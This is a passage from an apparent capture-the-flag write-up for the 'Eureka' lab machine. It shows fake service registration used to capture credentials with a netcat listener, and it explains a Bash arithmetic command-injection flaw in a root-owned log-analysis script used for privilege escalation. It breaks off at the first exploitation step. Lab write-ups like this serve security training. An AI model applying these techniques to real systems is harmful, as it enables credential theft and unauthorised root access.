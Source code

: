 ```bash
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}'
```

After registering the fake service, you need to listen for incoming connections on your local machine.

```bash
❯ nc -lvnp 8081
```

A short time after the registration, the genuine `user-management-service` will send a request to your listening port, disclosing a new set of credentials:

  * **Username**: **miranda.wise@furni.htb**
  * **Password**: **IL\!veXXXXXXXXXXXXXXX**

You can now use these credentials to switch to the `miranda-wise` user.

-----

## ⬆️ Privilege Escalation to Root

The `miranda-wise` user is part of the `developers` group. We can look for scripts or files that this group has elevated privileges on. Navigating to `/opt` reveals a script named `log_analyse.sh`.

```
miranda-wise@eureka:/opt$ ls -al
drwxrwx--- 2 root www-data 4096 Aug  7  2024 heapdump
-rwxrwxr-x  1 root root     4980 Mar 20 14:17 log_analyse.sh
```

This script is owned by `root` but can be executed and written by members of the `developers` group. A closer look at the script reveals a **command injection vulnerability**.

Specifically, the `analyze_http_statuses()` function processes log entries and compares HTTP status codes. The problematic line is:

```bash
if [[ "$existing_code" -eq "$code" ]]; then
```

The `$code` variable is populated directly from the log file using `grep -oP 'Status: \K.*'`. When the `if` condition is evaluated, it is an **arithmetic comparison**. If the `$code` variable contains a command inside `$(...)`, Bash will execute that command first.

We can exploit this by writing a malicious entry to the log file that the script will process. The log file `application.log` is located at `/var/www/web/cloud-gateway/log`, and is owned by `www-data` with group `developers`. Since `miranda-wise` is in the `developers` group, we can modify this file.

### Exploitation Steps

1.  **Remove the existing log file** to ensure our malicious entry is at the beginning.
